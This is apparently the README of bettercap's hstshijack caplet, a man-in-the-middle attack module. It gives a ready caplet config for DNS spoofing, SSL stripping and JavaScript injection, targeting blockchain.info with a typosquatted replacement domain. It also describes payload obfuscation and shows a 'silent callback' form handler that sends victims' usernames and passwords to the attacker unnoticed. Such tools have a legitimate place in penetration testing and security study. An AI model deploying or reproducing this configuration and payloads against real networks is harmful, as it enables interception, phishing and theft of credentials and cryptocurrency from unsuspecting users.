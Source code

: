 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             caplets/hstshijack/ssl.log
set hstshijack.payload         caplets/hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          *
set hstshijack.targets         blockchain.info,*.blockchain.info
set hstshijack.replacements    blockchian.info,*.blockchian.info
#set hstshijack.blockscripts    domain.com,*.domain.com
set hstshijack.custompayloads  *:caplets/hstshijack/payloads/sslstrip.js

set http.proxy.script  caplets/hstshijack/hstshijack.js
#set net.sniff.output   hstshijack0001.pcap
set net.sniff.verbose  false
set dns.spoof.all      true
net.sniff    on
dns.spoof    on
http.proxy   on
```

### Core payload

This module injects HTML & JS files with a payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>). This payload communicates with the bettercap sniffer, revealing all URLs that are discovered in the injected document.

This is done in separate and asynchronous requests so that bettercap can adjust the host and path for each request, and then send a HEAD request in order to learn each host's response headers for a HTTP request.

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       blockchain.info,*.blockchain.info
set hstshijack.replacements  blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own JavaScript payload(s) into HTML & JS files from targeted hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:caplets/hstshijack/payloads/sslstrip.js,google.com:caplets/hstshijack/payloads/google.js,*.google.com:caplets/hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https://` instances in `<a href="...` tags.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically every word that was found beginning with `obf_` will be obfuscated.


Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can write custom payloads that communicate with bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied. 

As soon as bettercap receives a callback, any request from the client for a spoofed hostname will immediately be redirected to the legitimate hostname, and any request for that targeted hostname will no longer be spoofed for this particular client.

Note: Any instance of `obf_path_callback` will be replaced with the callback path that bettercap listens for (this can save time when writing JavaScript payloads).

